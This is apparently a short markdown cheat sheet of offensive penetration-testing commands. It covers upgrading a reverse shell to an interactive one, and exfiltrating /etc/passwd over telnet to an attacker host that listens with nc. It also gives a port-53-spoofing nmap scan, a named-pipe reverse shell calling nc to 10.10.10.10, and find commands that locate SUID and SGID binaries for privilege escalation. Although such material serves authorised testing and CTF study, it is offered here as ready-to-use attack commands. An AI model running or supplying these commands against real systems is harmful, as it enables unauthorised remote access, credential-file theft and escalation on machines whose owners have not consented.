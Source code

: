 # Upgrading reverse shell to fully interactive
```bash
# Make sure you are using bash on the host machine
# Press Ctrl+Z once the connection is established
$ stty raw -echo
$ fg
$ reset
$ export TERM=xterm
```

# Exfiltrate files from target
```bash
# While having a listener on the attacker machine, started with:
$ nc -nlvp 1234 > outfile
# ...do
$ cat /etc/passwd | telnet <attackerIP> 1234
```
# View sudo privileges for user
```bash
$ sudo -l -U <user>
```

# Slow comprehensive nmap scan
The scan can be said to be a "Intense scan plus UDP" plus some extras features. It will put a whole lot of effort into host detection, not giving up if the initial ping request fails. It uses three different protocols in order to detect the hosts; TCP, UDP and SCTP. If a host is detected it will do its best in determining what OS, services and versions the host are running based on the most common TCP and UDP services. Also the scan camouflages itself as source port 53 (DNS).
```bash
$ sudo nmap -sS -sU -T4 -A -v -PE -PP -PS80,443 -PA3389 -PU40125 -PY -g 53 –script "default or (discovery and safe)" <target>
```

# Reverse shell with nc, sh and named pipes
```bash
$ /bin/sh -c rm /tmp/gg;mkfifo /tmp/gg;cat /tmp/gg|/bin/sh -i 2>&1|nc 10.10.10.10 5555 >/tmp/gg
```

# Find all SUID files
```bash
$ find / -perm -4000 -exec ls -lah {} \; 2>/dev/null
```

# Find all SGID files
```bash
$ find / -perm -2000 -exec ls -lah {} \; 2>/dev/null
```

